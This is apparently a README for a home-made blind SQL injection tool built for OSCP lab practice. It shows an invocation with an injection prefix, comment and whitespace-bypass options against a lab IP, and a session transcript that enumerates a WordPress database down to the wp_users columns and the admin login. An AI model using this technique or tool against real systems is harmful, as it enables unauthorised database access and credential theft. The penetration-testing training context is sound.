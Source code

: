 #### Use case

    This module is for blind SQL injection.
    SQLmap is a better andmore robust alternative, however,
    we are not allowed to use automation tools on the OSCP.
    Therefore, I created this custom module for my own usage.

#### Sample module wbsql
    wbsql -rh 10.11.1.251 -if burpRequest.txt -t "t')" -wd "/**/" -co "#" -hp 127.0.0.1:8080 -pps 11
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 1
    Total time: 12.04956007 seconds
    Database version: 5.7.27-0ubuntu0.18.04.1
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 2
    Total time: 8.15279603004 seconds
    Current database name: wordpress
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 3
    Total time: 27.0059490204 seconds
    Databases:
    information_schema
    mysql
    performance_schema
    sys
    wordpress

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 4
    Enter a database name: wordpress
    Total time: 1.13 minutes
    Tables in wordpress:
    wp_commentmeta
    wp_comments
    wp_links
    wp_options
    wp_postmeta
    wp_posts
    wp_term_relationships
    wp_term_taxonomy
    wp_termmeta
    wp_terms
    wp_usermeta
    wp_users

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 5
    Enter a database name: wordpress
    Enter a table name: wp_users
    Total time: 51.7088720798 seconds
    Columns in wordpress.wp_users:
    ID
    user_login
    user_pass
    user_nicename
    user_email
    user_url
    user_registered
    user_activation_key
    user_status
    display_name

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 6
    Enter a database name: wordpress
    Enter a table name: wp_users
    Enter a column name: user_login
    Total time: 7.48961114883 seconds
    Row values for user_login in wordpress.wp_users:
    admin

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): exit

##### _All modules have helper flags -h and --help for more assistance._